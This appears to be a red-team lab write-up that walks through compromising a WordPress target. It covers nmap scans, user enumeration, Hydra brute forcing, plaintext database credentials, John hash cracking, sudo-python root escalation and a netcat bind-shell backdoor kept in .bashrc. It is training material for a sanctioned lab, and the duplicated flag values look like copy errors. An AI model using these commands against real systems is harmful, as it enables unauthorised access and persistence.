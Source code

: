 # Red Team: Summary of Operations

## Table of Contents
- Network Topology
- Exposed Services
- Critical Vulnerabilities
- Exploitation
  - Obtain Flags 1-4
  - Establish a back door

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Stealth Scan
```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)

Enable OS detection, version detection, script scanning, and traceroute
```bash
$ nmap -A  192.168.1.110
```
![Nmap Scan2](/Images/NmapScan2.png)
![Nmap Scan3](/Images/NmapScan3.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on target 1:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
    - The product exposes sensitive information to an actor that is not explicitly authorized to have access to that information.
    - Allowed for port scan and identification of vulnerable ports.
  - CWE-672: Operation on a Resource after Expiration or Release
    - The software uses, accesses, or otherwise operates on a resource after that resource has been expired, released, or revoked.
    - WordPress version 4.8.7 was vulnerable to user enumeration among other vulnerabilities, and allowed for discovery of users of target 1.
  - CWE-521: Weak Password Requirements 
    - The product does not require a strong passwords, which makes it easier for attackers to compromise user accounts.
    - Allows a brute force attack to crack or guess the weak password of an user: Michael, and use the stole credentials to infiltrate the server.
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
    - The software does not implement sufficient measures to prevent multiple failed authentication attempts within in a short time frame, making it more susceptible to brute force attacks.
    - Allows a brute force attack to occur.
  - CWE-256: Unprotected Storage of Credentials
    - Storing a password in plaintext may result in a system compromise.
    - MySQL password was stored in plain text, and used to access MySQL database.
  - CWE-522: Insufficiently Protected Credentials
    - The product transmits or stores authentication credentials, but it uses an insecure method that is susceptible to unauthorized interception and/or retrieval.
    - MySQL contained user passwords hashes that was cracked by John.
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 
    - The software does not correctly perform an authorization check, which  allows attackers to bypass intended access restrictions.
    - Steven, with permission of execute python exe, was used to escalate privileges to root.

Searchsploit to identify possible exploits
```bash
$ searchsploit SSH
```
![SSHVuln](/Images/SSHVuln.png)

```bash
$ searchsploit apache
```
![apacheVuln](/Images/apacheVuln.png)

```bash
$ searchsploit Samba
```
![SambaVuln](/Images/SambaVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - `wpscan --url 192.168.1.110/wordpress/ --enumerate u`
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess weak password
        - `hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh`
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - `ssh michael@192.168.1.110`
        - `Password: michael`
      - Search for Flag1
        - `grep -rnw ./ -e 'flag1' 2>/dev/null`
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - `cd /var/www`
      - `grep -rnw ./ -e 'flag2' 2>/dev/null`
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password in MySQL database
        - `grep -rnw ./ -e 'password' 2>/dev/null`
        - `nano /var/www/html/wordpress/wp-config.php`
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - `mysql -u root -p'R@3nSecurity'`
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - `select post_content from wp_posts`
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password in MySQL database
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper in a Kali terminal
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - `john hash_pw.txt`
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Explore and escalate privilege to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      - Search for flag4
        - `find . -name flag4.txt`
        - ![flag4](/Images/flag4.png)
  - Backdooring the Target
    - **Exploit Used**
      - Backdoor installed: (Bind Shell) Netcat
      - Set up a listener on Target 1 by:
        - Gain root access to Target 1 and executing:
          - `nc -lvnp 4444 -e /bin/bash`
          - Save a .sh file of the command in .bashrc
      - Connect it to Kali by: 
        - `nc 192.168.1.110 4444`
      - ![Backdoor](/Images/Backdoor.png)



